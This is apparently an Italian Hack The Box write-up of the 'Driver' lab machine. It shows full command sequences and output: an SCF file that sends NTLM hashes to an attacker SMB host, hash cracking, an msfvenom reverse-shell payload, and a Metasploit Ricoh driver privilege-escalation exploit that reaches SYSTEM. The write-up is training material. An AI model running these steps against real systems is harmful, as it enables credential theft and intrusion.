

# Driver
* **POINTS**: 0
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Windows
* **RATING**: 4.7

## 1. Recon
```shell
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.106
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 12:12 EDT
Nmap scan report for 10.10.11.106 (10.10.11.106)
Host is up (0.13s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-06-23T23:12:47
|_  start_date: 2022-06-23T23:06:50
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 7h00m02s, deviation: 0s, median: 7h00m01s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.77 seconds
```

### 1.1 SMB TCP 445
#
C'è il servizio ma non è accessibile senza credenziali

```shell
┌──(asd㉿asd)-[~/Scrivania/Driver]
└─$ smbmap -H 10.10.11.106
[!] Authentication error on 10.10.11.106

┌──(asd㉿asd)-[~/Scrivania/Driver]
└─$ smbmap -H 10.10.11.106 -u anonymous -p anonymous
[!] Authentication error on 10.10.11.106

┌──(asd㉿asd)-[~/Scrivania/Driver]
└─$ smbclient -N -L //10.10.11.106
session setup failed: NT_STATUS_ACCESS_DENIED
```

### 1.2 Webpage TCP 80
#
Si nota che abbiamo un servizio Web sulla porta **80**

<p align="center">
  
</p>

Login bypassato con `admin` : `admin`


L'unica pagina che funziona nel sito, oltre *Home*, è *Firmware Updates*



C'è la possibilità di effettuare l'upload di un file che dovrebbe essere un firmware.
Intercettando la richiesta con *burp*, si nota come la pagina sia scritta in PHP.

```
POST /fw_up.php HTTP/1.1
Host: 10.10.11.106
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------69497804319653636872456923791
Content-Length: 358
Origin: http://10.10.11.106
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://10.10.11.106/fw_up.php
Upgrade-Insecure-Requests: 1

-----------------------------69497804319653636872456923791
Content-Disposition: form-data; name="printers"

HTB DesignJet
-----------------------------69497804319653636872456923791
Content-Disposition: form-data; name="firmware"; filename="test"
Content-Type: application/octet-stream

-----------------------------69497804319653636872456923791--
```

## 2. Shell
Cercando su Google come fare una revershell con le info che avevo, mi sono imbattutto in un [articolo](https://www.puckiestyle.nl/smb-share-scf-file-attacks/) interessante nel quel si spiega come, con *Samba Share* ed in particolare al file *scf* (Shell Command Files), si possa far contattare la macchina da attaccare da parte del server e noi, grazie a [responder](https://www.kali.org/tools/responder/), riceveremo l'hash dell'account.

Seguendo la guida creiamo il file *.scf*

```
[Shell]
Command=2
IconFile=\\10.10.14.9\share\driver.ico
[Taskbar]
Command=ToggleDesktop
```

Quindi facciamo l'upload mentre stiamo in ascolto con *responder*

"GIF"

Abbiamo l'hash

```
tony::DRIVER:2d1f0b3483cef303:FD737C5007A5CEC8BA7D37936BD99A09:01010000000000000030B9F80287D80148932634B4332EF500000000020008003500430044004C0001001E00570049004E002D005700320052003300480041004A00540056005000570004003400570049004E002D005700320052003300480041004A0054005600500057002E003500430044004C002E004C004F00430041004C00030014003500430044004C002E004C004F00430041004C00050014003500430044004C002E004C004F00430041004C00070008000030B9F80287D801060004000200000008003000300000000000000000000000002000008BED65D8F891EBA1B716D9034B748CC9CD571982416AB569A55BE423251392480A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E003900000000000000000000000000
```

Lo cracchiamo con **John The Ripper**

```shell
└─$ john SMB-NTLMv2-SSP-\:\:ffff\:10.10.11.106.txt -w=../rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2022-06-23 13:16) 14.28g/s 453485p/s 453485c/s 453485C/s zombies..210687
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

Le credenziali appena reperite (`tony` : `liltony`) li utilizziamo con [evil-winrm](https://github.com/Hackplayers/evil-winrm) per avere l'accesso alla macchina

```shell
└─$ evil-winrm -i 10.10.11.106 -u tony -p liltony

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tony\Documents> 
```

In *\Users\tony\Desktop* abbiamo la user flag: `a8180b9c10a1b18e434e768407ebac9f`

## 3. Privilege Escalation
Lanciando [WinPEAS](https://github.com/carlospolop/PEASS-ng) si nota una cosa interessante:

```shell
ÉÍÍÍÍÍÍÍÍÍ͹ PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.0.10240.17146
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 134B
```

E vedendo cosa c'è nella history troviamo il seguente comando:

```shell
*Evil-WinRM* PS C:\Users\tony\Desktop> cat C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'

ping 1.1.1.1
ping 1.1.1.1
```

Visto il comando, ricordando il nome del box, ho cercato su Google `ricoh printer exploit` ed il primo [risultato](https://www.ricoh.com/info/2020/0122_1#:~:text=On%20January%2022%2C%202020%2C%20Ricoh,MFPs%2C%20Printers%20and%20Digital%20Duplicators.) riportava la CVE associata: **CVE-2019-19363**.

### 3.1 Shell as SYSTEM
#
Prima di ogni cosa bisogna aver una shell come SYSTEM ed iniziamo a costruirla con l'aiuto di [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

```shell
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: rev.exe
```
Carichiamo l'exe sulla macchina.

Per avere la connessione in locale, utilizziamo [msfconsole](https://www.offensive-security.com/metasploit-unleashed/msfconsole/), in particolare usiamo il modulo `exploit/multi/handler`.

```shell
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.9       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.9:4444 
[*] Sending stage (200262 bytes) to 10.10.11.106
[*] Meterpreter session 1 opened (10.10.14.9:4444 -> 10.10.11.106:49418 ) at 2022-06-23 16:31:13 -0400

meterpreter > 
```

Ora ci soffermiamo sul modulo `local_exploit_suggester`

```shell
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.11.106 - Collecting local exploits for x64/windows...
[*] 10.10.11.106 - 31 exploit checks are being tried...
[+] 10.10.11.106 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[-] 10.10.11.106 - Post interrupted by the console user
[*] Post module execution completed
```

Quindi cerchiamo un exploit su `msfconsole`

```shell
msf6 post(multi/recon/local_exploit_suggester) > search ricoh

Matching Modules
================

   #  Name                                        Disclosure Date  Rank    Check  Description
   -  ----                                        ---------------  ----    -----  -----------
   0  exploit/windows/ftp/ricoh_dl_bof            2012-03-01       normal  Yes    Ricoh DC DL-10 SR10 FTP USER Command Buffer Overflow
   1  exploit/windows/local/ricoh_driver_privesc  2020-01-22       normal  Yes    Ricoh Driver Privilege Escalation


Interact with a module by name or index. For example info 1, use 1 or use exploit/windows/local/ricoh_driver_privesc                                                                                                                  

msf6 post(multi/recon/local_exploit_suggester) > use 1
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/ricoh_driver_privesc) >
```

Ora configuriamo il tutto come segue

```shell
msf6 exploit(windows/local/ricoh_driver_privesc) > options

Module options (exploit/windows/local/ricoh_driver_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.9       yes       The listen address (an interface may be specified)
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows
```

Arrivati a questo punto avevo pensato che avviando l'exploit avrebbe funzionato... ma non è stato così poichè una volta avviato rimaneva in stallo.

Cercando quale potesse la causa, ho pensato di vedere quali fossero i servizi attivi sulla macchiana e sopratutto vedere a quale sessione fosse collegato il processo relativo alla *shell* caricata ed avvianta in precedenza.

```shell
meterpreter > ps

Process List
============

 PID   PPID  Name                Arch  Session  User         Path
 ---   ----  ----                ----  -------  ----         ----
 0     0     [System Process]
 4     0     System
 264   4     smss.exe
 340   332   csrss.exe
 448   332   wininit.exe
 456   440   csrss.exe
 500   440   winlogon.exe
 564   448   services.exe
 572   448   lsass.exe
 592   564   sedsvc.exe
 656   564   svchost.exe
 712   564   svchost.exe
 804   500   dwm.exe
 828   564   svchost.exe
 856   564   svchost.exe
 864   564   svchost.exe
 916   564   svchost.exe
 964   916   WUDFHost.exe
 1012  564   svchost.exe
 1052  564   svchost.exe
 1236  564   spoolsv.exe
 1408  564   svchost.exe
 1416  564   svchost.exe         x64   1        DRIVER\tony  C:\Windows\System32\svchost.exe
 1472  1788  shell.exe           x64   0        DRIVER\tony  C:\ProgramData\shell.exe
 1620  828   sihost.exe          x64   1        DRIVER\tony  C:\Windows\System32\sihost.exe
 1624  564   svchost.exe
 1636  564   svchost.exe
 1708  828   taskhostw.exe       x64   1        DRIVER\tony  C:\Windows\System32\taskhostw.exe
 1736  564   svchost.exe
 1744  564   vm3dservice.exe
 1752  564   vmtoolsd.exe
 1760  564   svchost.exe
 1788  656   wsmprovhost.exe     x64   0        DRIVER\tony  C:\Windows\System32\wsmprovhost.exe
 1808  564   VGAuthService.exe
 2044  1744  vm3dservice.exe
 2228  828   cmd.exe             x64   1        DRIVER\tony  C:\Windows\System32\cmd.exe
 2336  564   dllhost.exe
 2448  656   WmiPrvSE.exe
 2520  564   msdtc.exe
 2728  564   SearchIndexer.exe
 2964  564   svchost.exe
 2992  2228  conhost.exe         x64   1        DRIVER\tony  C:\Windows\System32\conhost.exe
 3076  2932  explorer.exe        x64   1        DRIVER\tony  C:\Windows\explorer.exe
 3116  564   svchost.exe
 3144  4028  conhost.exe         x64   0        DRIVER\tony  C:\Windows\System32\conhost.exe
 3168  656   RuntimeBroker.exe   x64   1        DRIVER\tony  C:\Windows\System32\RuntimeBroker.exe
 3404  656   explorer.exe        x64   1        DRIVER\tony  C:\Windows\explorer.exe
 3624  656   explorer.exe        x64   1        DRIVER\tony  C:\Windows\explorer.exe
 3664  656   SearchUI.exe        x64   1        DRIVER\tony  C:\Windows\SystemApps\Microsoft.Windows.Cortana_cw5n1h2txyewy\SearchUI.exe
 3732  2728  SearchProtocolHost.exe
 3792  656   ShellExperienceHost.exe  x64   1        DRIVER\tony  C:\Windows\SystemApps\ShellExperienceHost_cw5n1h2txyewy\ShellExperienceHost.exe                                        
 3996  656   explorer.exe        x64   1        DRIVER\tony  C:\Windows\explorer.exe
 4028  1472  cmd.exe             x64   0        DRIVER\tony  C:\Windows\System32\cmd.exe
 4836  2728  SearchFilterHost.e
             xe
 4884  2228  PING.EXE            x64   1        DRIVER\tony  C:\Windows\System32\PING.EXE
 5036  3076  vmtoolsd.exe        x64   1        DRIVER\tony  C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 5096  3076  OneDrive.exe        x86   1        DRIVER\tony  C:\Users\tony\AppData\Local\Microsoft\OneDrive\OneDrive.exe
 ```

 Bene la shell è sulla *sessione 0* e deve essere sulla 1 affinchè possa funzionare... allora cercando su Google ho scoperto il comanda di Windows `migrate`

```shell
meterpreter > migrate -N explorer.exe
[*] Migrating from 1472 to 3076...
[*] Migration completed successfully.
```

Arrivati a questo punto, si può mandare in backgroud ed avviare l'exploit

```shell
msf6 exploit(windows/local/ricoh_driver_privesc) > run

[*] Started reverse TCP handler on 10.10.14.9:5555 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[*] Adding printer hSUVZGjl...
[*] Sending stage (200262 bytes) to 10.10.11.106
[*] Meterpreter session 2 opened (10.10.14.9:5555 -> 10.10.11.106:49417 ) at 2022-06-24 11:04:26 -0400
[*] Deleting printer hSUVZGjl

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

In *C:\users\administrator\desktop* abbiamo la root flag: `f1d6835501edb1b1dfb8e6fc398845f5`